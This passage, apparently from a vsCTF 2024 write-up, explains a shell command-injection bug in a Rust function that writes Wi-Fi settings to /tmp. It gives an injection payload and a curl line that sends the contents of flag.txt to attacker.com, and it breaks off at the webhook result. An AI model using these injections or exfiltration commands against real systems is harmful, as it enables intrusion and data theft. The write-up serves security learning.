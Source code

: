 It reads an input into the global variable `WIFI_PASSWORD`, and then calls `save_properties_to_file`:

```rust
fn save_properties_to_file(){  
    unsafe{  
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");  
        Command::new("/bin/sh")  
                        .arg("-c")  
                        .arg(cmd)  
                        .output()  
                        .expect("Failed to execute command");  
    }  
}
```

This functions runs a shell command using an attacker controlled input (the global variables are controlled by an attacker; specifically `WIFI_PASSWORD` can be any string we want). Cleaning this up a bit, the actual command that is run is

```bash
echo "{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}" > /tmp/{ID}.conf
```

Our input isn't validated, so we can inject the following payload:

```
;" ls ".
```

This will result in the following command being executed:

```bash
echo "{ESSID}\\n{BAND}\\n{CHANNEL}\\n;" ls"." > /tmp/{ID}.conf
```

To exfiltrate the flag, we use:

```
;" curl "https://attacker.com/$(cat /home/user/flag.txt | tr -d '\n')
```

This sends an HTTP request to `attacker.com`, with a path of the contents of `/home/user/flag.txt`. We remove newlines just in case. This gives us the flag!
![webhook](/assets/img/vsctf2024/webhook.png)
We get a request to the following path:
